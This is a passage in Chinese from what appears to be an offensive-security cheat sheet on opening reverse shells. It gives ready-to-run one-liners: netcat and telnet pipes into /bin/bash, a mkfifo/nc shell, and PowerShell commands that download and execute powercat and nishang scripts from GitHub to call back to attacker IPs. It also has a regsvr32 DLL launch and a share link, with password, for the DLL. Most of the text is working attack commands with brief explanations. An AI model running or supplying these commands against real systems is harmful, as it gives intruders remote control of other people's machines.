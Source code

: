 ```powershell
nc x.x.x.x 1234|/bin/bash|nc x.x.x.x 4321                //在攻击主机上打开两个终端，分别监听 1234 和 4321 端口，得到反弹shell后，1234 终端 输入命令， 4321 终端就会获得执行相应命令后的结果
```

由于现在很多主机上可能没有netcat了，所以如果遇到虽然有netcat 但不支持 `nc -e /bin/bash 攻击主机ip port` 中 `-e`选项的主机，还可以这样反弹shell

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

- `rm /tmp/f` 删除命令
- `mkfifo /tmp/f;` 在tmp目录下写fifo文件f
- `/bin/sh -i 2>&1` 将/bin/sh 的标准错误重定向到标准输出
- `nc x.x.x.x 2333 >/tmp/f`将nc监听到的输入 输入到fifo

###### telnet反弹

在攻击主机上打开两个终端分别监听 1234 和 4321端口,(确保端口开放，并且不被占用)，得到反弹shell后，1234 终端 输入命令， 4321 终端就会获得执行相应命令后的结果：

```powershell
nc -lvvp 1234

nc -lvvp 4321
```

在目标主机上执行：

```powershell
telnet 攻击主机ip 1234 | /bin/bash | telnet 攻击主机ip 4321
```

###### powershell反弹

powershell反弹cmd 被攻击端运行命令

```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 192.168.1.4 -p 9999 -e cmd
```

powershell反弹powershell

```powershell
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.203.140 -port 6666
```

###### dll反弹

https://pan.baidu.com/share/init?surl=oO8k4VYHf6CmW-WcDAH4SA 密码:ylv3

![img](https://z3.ax1x.com/2021/11/30/o1F0JI.png)

```powershell
regsvr32 /s /u server.dll
```

##### 脚本反弹
